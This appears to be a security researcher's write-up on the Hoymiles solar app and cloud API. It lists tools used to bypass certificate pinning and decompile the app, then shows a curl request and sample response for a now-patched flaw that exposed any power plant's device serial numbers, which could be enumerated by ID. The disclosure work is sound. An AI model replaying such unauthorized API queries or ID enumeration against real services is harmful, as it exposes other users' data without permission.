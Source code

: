 ![System](pictures/system.png)

## App and cloud 

Following tools have been used:
* android emulator 
* Frida and [this script](https://github.com/httptoolkit/frida-android-unpinning/blob/main/frida-script.js) to bypass certificate pinning
* [jadx](https://github.com/skylot/jadx) for app reverse engineering
* Chrome with developer tools
* curl, curl, curl and curl


### Get the serial numbers of (all) registered devices **(PATCHED)**
 
In `jadx` an overview of the APIs could be found in the package `com.hoymiles.http`, class `httphelper`. It was possible to get some information about any power plant (called `station`) registered in the system - even without being the owner. A power plant has a DTU and some inverters/MIs. They have a unique id which seems to be incremented by 10 for every new creation. Here is the API call (the token does not need to belong to the power plant related account, any valid token for a DIY account works):

```sh
curl http://neapi.hoymiles.com/pvm/api/0/dev/dtu/select_all -H "content-type: application/json" -X POST -H "Authorization: [Token here]" -d '{"id":[id here]}'
```
Answer:
```json
{"status":"0","message":"success","data":[{"dtu":{"id":,"sn":"4111XXXXXXXX","vc":""},"repeater_list":[{"id":0,"sn":"","dev_type":2,"inv_id":null,"inv_sn":null,"inv_type":null,"micros":[{"id":,"sn":"1121XXXXXXXX","vc":"","dev_type":3,"series":null,"port_array":[1]}]}]}]}
```
This information could be extracted for every registered power plant, including serial numbers of DTU and MIs. Moreover, by enumerating the ids, we could get the total number of registered power plants (something over 230.000 as of 09.2023).
